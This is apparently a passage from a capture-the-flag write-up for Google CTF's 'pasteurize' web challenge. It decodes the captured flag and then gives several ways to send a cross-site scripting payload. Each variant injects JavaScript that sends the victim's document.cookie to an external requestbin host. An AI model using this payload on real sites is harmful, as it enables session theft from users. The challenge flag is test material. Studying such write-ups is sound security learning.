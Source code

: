 Decoded:
```console
root@kali:/media/sf_CTFs/google/pasteurize# echo c2VjcmV0PUNURntFeHByZXNzX3QwX1RyMHVibDNzfQ== | base64 -d
secret=CTF{Express_t0_Tr0ubl3s}
```

## Appendix A: Other ways to send the request

It might be a bit more convenient to use the browser's Javascript Console to send the request.

JQuery knows how to serialize an object automatically:
```javascript
$.ajax({
        url: '/',
        type: 'POST',
        data: {"content": { '; fetch(\'https://enktailvzebp.x.pipedream.net/?cookie=\' + btoa(document.cookie)); //': 'baz'}}, 
        complete: function (response)
        {
            console.log(response.responseText)
        }
    });
```

`fetch` on the other hand, does not:
```javascript
await fetch("https://pasteurize.web.ctfcompetition.com/", {
    "credentials": "omit",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    },
    "referrer": "https://pasteurize.web.ctfcompetition.com/1c36eaaa-35d0-4dda-ba70-fd7263bf2fe0",
    "body": "content%5B%3B+fetch('https%3A%2F%2Fenktailvzebp.x.pipedream.net%2F%3Fcookie%3D'+%2B+btoa(document.cookie))%3B+%2F%2F%5D=baz",
    "method": "POST",
    "mode": "cors"
});

// or

data = {"content": { '; fetch(\'https://enktailvzebp.x.pipedream.net/?cookie=\' + btoa(document.cookie)); //': 'baz'}};
searchParams = new URLSearchParams();
for (const prop in data) {
  searchParams.set(prop, data[prop]);
}
await fetch("https://pasteurize.web.ctfcompetition.com/", {
    "credentials": "omit",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    },
    "referrer": "https://pasteurize.web.ctfcompetition.com/1c36eaaa-35d0-4dda-ba70-fd7263bf2fe0",
    "body": searchParams,
    "method": "POST",
    "mode": "cors"
});
```